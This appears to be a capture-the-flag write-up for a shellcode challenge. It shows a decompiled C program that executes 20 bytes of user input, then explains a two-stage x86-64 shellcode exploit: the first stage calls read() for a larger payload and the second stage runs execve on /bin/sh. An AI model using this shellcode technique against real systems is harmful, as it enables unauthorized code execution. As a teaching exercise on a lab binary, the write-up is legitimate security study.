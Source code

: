 # multistage
This challenge is very similar to back_to_shell. Also here we have an input that is directly called by the main:
```c
void main(void)

{
  code *shellcode;
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  shellcode = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  read(0,shellcode,0x14);
  printf("Executing you shellcode.");
  (*shellcode)();
  return;
}
```
(I have deleted from the source code a printf that just print a ascii art).
The problem here is that we can only read 0x14 (20 in decimal) bytes, so if we want to use the same shellcode as back_to_shell we cannot because the length of the payload was 0x18 (shellcode + bin/sh\x00).
What we can do, as the name of the challenge suggest is to create a multystage shellcode:
- first stage to call the syscall read with an higher length 
- pass to the read the shellcode for spawn a shell
the stage 1 can be this:
```python
stage_1="""
mov rsi, rax
add rsi, 20
xor rdi, rdi
mov edx, 0x100
xor rax, rax
syscall
"""
asm_stage_1 = asm(stage_1)

r.send(asm_stage_1)
```

this will call a read in the area just after the shellcode for the stage 1, here we will put the shellcode for the stage 2:
```python
stage_2="""
mov rdi, rcx
add rdi,22
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
"""
asm_stage_2=asm(stage_2)
payload=asm_stage_2+ b"/bin/sh\x00"
r.send(payload)
```
this will spawn a shell.
Notice that in both stage 1 and 2 the second instruction is dependent from the size of the shellcode itself.
